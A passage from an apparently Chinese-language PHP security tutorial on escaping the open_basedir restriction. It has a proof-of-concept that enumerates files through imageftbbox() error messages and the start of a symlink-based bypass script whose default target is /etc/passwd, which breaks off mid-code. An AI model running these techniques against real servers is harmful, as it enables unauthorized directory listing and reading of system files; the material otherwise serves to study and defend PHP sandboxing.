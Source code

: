 realpath()和SplFileInfo::getRealPath()的区别：
>realpath()只有在启用了open_basedir()限制的情况下才能使用这种思路爆目录
>而SplFileInfo::getRealPath()可以无视是否开启open_basedir进行列目录
>但是当没有open_basedir我们也不需要这些了。

###  利用imageftbbox()
GD库一般是PHP必备的扩展库之一，当中的imageftbbox()函数也可以起到像realpath()一样的列目录效果。
其思想也和上面的类似。这个函数第三个参数是字体的路径。我发现当这个参数在open_basedir外的时候，当文件`存在`，则php会抛出`“File(xxxxx) is not within the allowed path(s)”`错误。但当文件`不存在`的时候会抛出`“Invalid font filename”`错误。

环境：windows
POC:

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip.png");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>
```
但是这个测试出来有点怪。该方法并不能把路径爆出来，这也是与realpath的最大不同之处。所以，我们只能一位一位地猜测。
##  脚本
**一个是p神的脚本**，就是利用symlink()函数来Bypass

```php
<?php
/*
* by phithon
* From https://www.leavesongs.com
* detail: http://cxsecurity.com/issue/WLB-2009110068
*/
header('content-type: text/plain');
error_reporting(-1);
ini_set('display_errors', TRUE);
printf("open_basedir: %s\nphp_version: %s\n", ini_get('open_basedir'), phpversion());
printf("disable_functions: %s\n", ini_get('disable_functions'));
$file = str_replace('\\', '/', isset($_REQUEST['file']) ? $_REQUEST['file'] : '/etc/passwd');
$relat_file = getRelativePath(__FILE__, $file);
$paths = explode('/', $file);
$name = mt_rand() % 999;
$exp = getRandStr();
mkdir($name);
chdir($name);
for($i = 1 ; $i < count($paths) - 1 ; $i++){
    mkdir($paths[$i]);
    chdir($paths[$i]);
}
mkdir($paths[$i]);
```